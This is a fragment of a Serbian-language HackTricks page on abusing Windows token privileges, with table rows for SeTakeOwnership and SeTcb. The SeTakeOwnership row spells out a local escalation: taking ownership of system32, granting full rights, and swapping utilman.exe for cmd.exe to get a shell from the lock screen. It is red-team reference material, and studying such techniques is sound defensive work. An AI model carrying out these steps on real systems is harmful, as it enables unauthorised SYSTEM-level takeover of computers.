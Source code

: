 | **`SeTakeOwnership`**      | _**Admin**_ | _**Ugrađene komande**_ | <p>1. <code>takeown.exe /f "%windir%\system32"</code><br>2. <code>icalcs.exe "%windir%\system32" /grant "%username%":F</code><br>3. Preimenujte cmd.exe u utilman.exe<br>4. Zaključajte konzolu i pritisnite Win+U</p>                                                                                                                                            | <p>Napad može biti otkriven od strane nekih AV softvera.</p><p>Alternativna metoda se oslanja na zamenu binarnih fajlova servisa smeštenih u "Program Files" koristeći istu privilegiju.</p>                                                                          |
| **`SeTcb`**                | _**Admin**_ | Alat treće strane      | <p>Manipulacija tokenima radi uključivanja lokalnih administratorskih prava. Može zahtevati SeImpersonate.</p><p>Da se proveri.</p>                                                                                                                                                                                                                               |                                                                                                                                                                                                                                                                       |

## Reference

* Pogledajte ovu tabelu koja definiše Windows tokene: [https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)
* Pogledajte [**ovaj rad**](https://github.com/hatRiot/token-priv/blob/master/abusing\_token\_eop\_1.0.txt) o eskalaciji privilegija pomoću tokena.

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
